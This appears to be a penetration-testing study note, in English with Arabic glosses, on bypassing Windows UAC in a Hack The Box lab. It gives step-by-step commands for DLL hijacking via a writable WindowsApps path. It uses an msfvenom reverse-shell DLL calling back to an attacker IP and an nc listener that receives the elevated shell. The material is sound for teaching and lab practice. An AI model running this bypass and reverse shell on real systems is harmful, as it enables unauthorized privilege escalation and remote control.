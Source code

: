 # User Account Control

**User Account Control(UAC):** feature in windows which display consent prompt when program run service need high privilege

عباره عن برومبت بتظهر لما بترن حاجه محتاجه صلاحيات عاليه

When UAC is enable all Apps running with user privilege wither admin accept to running with admin privilege

لما الحاجه دي تبقي شغاله البرامج والمهام بتشتغل بصلاحيات مستخدم عادي، إلا لو الأدمن وافق صراحة إنها تشتغل بصلاحيات أدمن. ده بيحمي الأدمن من إنه يعمل تغييرات خطيرة من غير قصد.

**UAC is not Security Boundary**

***

## **Checking Current User**

```powershell
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002
```

## **Confirming Admin Group Membership**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.
```

## **Reviewing User Privileges**

```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## **Confirming UAC is Enabled**

check if UAC is enabled if value is 0x1 then UAC is enabled

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

## **Checking UAC Level**

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## **Checking Windows Version**

UAC bypasses leverage flaws or unintended functionality in different Windows builds

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

![image.png](<../../../../.gitbook/assets/image (1).png>)

> **The** [**UACME**](https://github.com/hfiref0x/UACME) **project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it**

<figure><img src="../../../../.gitbook/assets/image 1 (1).png" alt=""><figcaption></figcaption></figure>

## **Reviewing Path Variable**

The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

***

## **Generating Malicious srrstr.dll DLL**

First, let's generate a DLL to execute a reverse shell. and open listener

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

## **Testing Connection**

run dll with privilege user to confirm it’s work

```bash
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

## **Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```bash
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```bash
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## **Receiving Connection Back**

Checking back on our listener, we should receive a connection almost instantly.

```bash
irix@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

***
